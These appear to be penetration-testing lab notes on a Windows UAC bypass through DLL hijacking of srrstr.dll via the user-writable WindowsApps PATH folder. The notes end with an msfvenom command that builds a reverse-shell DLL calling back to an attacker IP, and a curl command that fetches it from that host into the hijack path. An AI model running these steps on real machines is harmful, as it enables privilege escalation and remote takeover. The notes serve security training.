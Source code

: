 #### Confirming UAC is Enabled
```cmd-session
REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA
```
#### Checking UAC Level
```cmd-session
REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin
```
#### Checking Windows Versionn
```powershell-session
[environment]::OSVersion.Version
```
We then CrossRef [this](https://en.wikipedia.org/wiki/Windows_10_version_history) page
The [UACME](https://github.com/hfiref0x/UACME) project maintains a list of UAC bypasses.

There are many trusted binaries that Windows will allow to auto-elevate without the need for a UAC consent prompt.
the 32-bit version of `SystemPropertiesAdvanced.exe` attempts to load the non-existent DLL srrstr.dll, which is used by System Restore functionality.

```
When attempting to locate a DLL, Windows will use the following search order.

1. The directory from which the application loaded.
2. The system directory `C:\Windows\System32` for 64-bit systems.
3. The 16-bit system directory `C:\Windows\System` (not supported on 64-bit systems)
4. The Windows directory.
5. Any directories that are listed in the PATH environment variable.
```

### UAC Bypass
#### Reviewing Path Variable
Let's examine the path variable using the command `cmd /c echo %PATH%`. This reveals the default folders below. The `WindowsApps` folder is within the user's profile and writable by the user.
```powershell-session
cmd /c echo %PATH%

C:\Windows\system32;
C:\Windows;
C:\Windows\System32\Wbem;
C:\Windows\System32\WindowsPowerShell\v1.0\;
C:\Users\sarah\AppData\Local\Microsoft\WindowsApps;
```
We can potentially bypass UAC in this by using DLL hijacking by placing a malicious `srrstr.dll` DLL to `WindowsApps` folder, which will be loaded in an elevated context.

#### Generating a Malicious DLL
```shell-session
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.3 LPORT=8443 -f dll > srrstr.dll
```
#### Downloading DLL
```powershell-session
curl http://10.10.14.3:8080/srrstr.dll -O "C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll"
```
